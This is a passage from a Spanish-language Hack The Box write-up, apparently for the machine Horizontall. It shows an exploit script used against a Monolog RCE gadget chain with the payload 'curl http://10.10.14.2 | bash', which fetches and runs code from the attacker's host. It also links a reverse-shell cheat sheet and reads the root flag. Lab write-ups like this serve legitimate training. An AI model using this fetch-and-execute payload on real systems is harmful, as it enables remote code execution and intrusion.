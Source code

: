 <p align="justify">
  Validamos que tenemos RCE, podemos entablar una conexión reversa.
</p>

- [Reverse Shell - Tool](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```go
python3 exploit.py http://localhost:8000 Monolog/RCE1 "curl http://10.10.14.2 | bash"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/4b1c33c0-187b-407d-95bb-20cca1457170">
</p>

<p align="justify">
  Ahora que hemos obtenido privilegios de superusuario (root), solo nos queda obtener la flag del usuario ROOT. Para ello, ejecutamos los comandos necesarios.
</p>

```go
cd /root/
ls -la
cat root.txt
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/d1d32b26-955a-4cae-ac4f-fe16dc82af1a">
</p>

>**HORINZONTALL - PWNED!**
